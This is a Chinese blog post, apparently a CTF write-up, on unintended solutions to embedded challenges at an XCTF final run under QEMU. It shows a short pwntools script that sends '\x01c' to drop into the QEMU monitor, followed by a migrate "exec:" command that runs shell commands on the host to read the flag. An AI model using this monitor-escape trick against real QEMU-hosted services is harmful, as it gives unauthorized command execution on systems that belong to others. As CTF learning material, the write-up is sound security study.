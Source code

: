 ```yaml
---
layout: post
tags: [ctf_wp]
title: "XCTF华为高校挑战赛决赛 复现"
author: wsxk
date: 2022-9-26
comments: true
---
```


作为一场纯嵌入式的比赛，大四菜狗比赛2天，坐牢两天....<br>
有些题目的正规解题估计很难，但是非预期解倒是非常有趣.感觉可以学一学<br>
首先作为嵌入式的题目，绝大多数都是arm架构的，一般都是用qemu跑起来。<br>
很多非预期解都是跟qemu的特性相关的，因此一些qemu特性需要我们了解<br>

- [qemu特性(不完全版)](#qemu特性不完全版)
- [unsql](#unsql)
- [yugioh](#yugioh)
- [其他](#其他)
- [总结](#总结)
- [references](#references)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>


## qemu特性(不完全版)<br>
qemu似乎有个叫做monitor的机制，在进入的monitor机制后，可以做一些特殊的操作（即原来qemu不能运行的命令）<br>
当时看到xuanxuan哥的blog后，我大受震撼！<br>
似乎在使用qemu来运行其他程序时，如果出题方给的脚本里没有开启monitor模式时，一个非预期操作就诞生了!<br>
我们似乎可以在与远程服务器进行交互时，发送`"\x01c"`（似乎是`ctrl+a c`）来使远程qemu进入monitor模式，这样我们就可以做一些其他的命令！<br>
monitor模式里可以使用的命令可以参考<br>
[https://qemu.readthedocs.io/en/latest/system/monitor.html](https://qemu.readthedocs.io/en/latest/system/monitor.html)


## unsql<br>
这道题目逆向起来似乎是非常困难的。<br>
但是查看这个程序的qemu启动脚本<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20220926220337.png)
好，它没有开monitor模式！换句话说，我们可以手动开启monitor模式来输入其他命令！<br>
因为已经没有了远程环境，我们使用本地环境来进行调试<br>
```python
from pwn import *
context(log_level='debug')

#io =remote("172.35.7.36",9999)
io = process("./start_qemu.sh")
io.send(b"\x01c")
sleep(1)
# io.sendline(b"")
# io.sendlineafter("(qemu) ",'migrate "exec: strings /rootfs.img | grep flag"')
io.interactive()
```
在进入模式后，尝试使用xuanxuan哥blog里提到的方式`migrate "exec: strings rootfs.img | grep flag"` 来尝试获取flag<br>

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20220926220706.png)
尝试了一下还真拿到了flag!<br>
~~不过migrate "exec: strings rootfs.img | grep flag"这种用法，之前确实没有见过，上面的文档里也没有，可能是老练的qemu大师的经验吧~~<br>在xuanxuan哥的帮助下在qemu的文档里找到了该命令<br>


## yugioh<br>
这道题目一开始是个游戏王的游戏，但是对方有挂，3个回合，每回合召唤一个三神兵之一，普通玩家毫无招架之力<br>
老样子，先看启动脚本<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20220926223722.png)
可以看见，同样的没有开启monitor模式，我们可以手动开启，获得monitor权限<br>
不过看xuanxuan哥的blog，在远程时可能存在一些问题<br>
这时候也体现出linux大师的力量啦，各种命令用的贼溜<br>
像`head` `tail` 这些命令，之前都不会想到。<br>
head可以读取文件开头的若干行，tail可以读取文件末尾的若干行<br>
head和tail的组合使用可以读取文件的任意行数
例如:
```shell
head -n 3 readme.txt | tail -n 2
```
可以读取readme.txt文件的第2~3行

## 其他<br>
其他的题目似乎也有题解，但是背景知识太多了，不由感叹安全领域的广阔无垠....<br>


## 总结<br>
1. qemu monitor非预期利用<br>
2. head、tail组合运用

## references<br>
[https://xuanxuanblingbling.github.io/ctf/pwn/2022/09/19/harmony/](https://xuanxuanblingbling.github.io/ctf/pwn/2022/09/19/harmony/)<br>
[https://hhb584520.github.io/kvm_blog/2017/02/17/qemu-monitor.html](https://hhb584520.github.io/kvm_blog/2017/02/17/qemu-monitor.html)<br>
[https://qemu.readthedocs.io/en/latest/system/monitor.html](https://qemu.readthedocs.io/en/latest/system/monitor.html)<br>
[https://www.jianshu.com/p/95aa966e45e9](https://www.jianshu.com/p/95aa966e45e9)